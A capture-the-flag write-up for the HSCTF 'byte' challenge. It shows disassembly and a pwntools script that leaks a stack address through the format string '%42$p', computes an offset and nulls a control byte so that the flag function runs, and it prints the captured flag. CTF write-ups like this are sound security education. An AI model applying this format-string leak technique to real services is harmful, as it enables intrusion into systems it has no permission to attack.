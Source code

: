 ## byte

For this challenge, we leak an address on the stack using a format string exploit. It's just a matter of identifying the address we need to nullify. The binary has full RELRO enabled and is a position independent executable (PIE).

```assembly
.text:00001564 loc_1564:                               ; CODE XREF: main+82
.text:00001564                 cmp     [ebp+var_88], 1
.text:0000156B                 jle     loc_13AA
.text:00001571                 cmp     [ebp+var_8E], 0
.text:00001579                 jnz     short loc_1582
.text:0000157B                 call    flag
```

We can see that `ebp-0x8e` contains the byte which determines whether or not the `flag` function is called. So we identify an address nearby on the stack using a format string of `%42$p`, then calculate the offset to `ebp-0x8e`. The challenge was a little annoying because my stack layout was significantly different from the server's layout.

```python
#!/usr/bin/python2

from pwn import *

#
# $ python get.py
# [+] Opening connection to pwn.hsctf.com on port 6666: Done
# [*] 0xff82076c
# [*] 0xff82062a
# [+] Receiving all data: Done (38B)
# [*] Closed connection to pwn.hsctf.com port 6666
# hsctf{l0l-opt1mizati0ns_ar3-disabl3d}
#

p = remote('pwn.hsctf.com', 6666)
# p = process('./byte')

p.sendline('%42$p')
p.recvuntil('byte: ')

address_string = p.recv(10)
address = int(address_string, 16)

log.info(hex(address))

nullify = str(hex(address - 0x142))[2:]
log.info('0x' + nullify)
p.sendline(nullify)

p.recvuntil('flag: ')
print p.recvall(timeout=1.0)
```
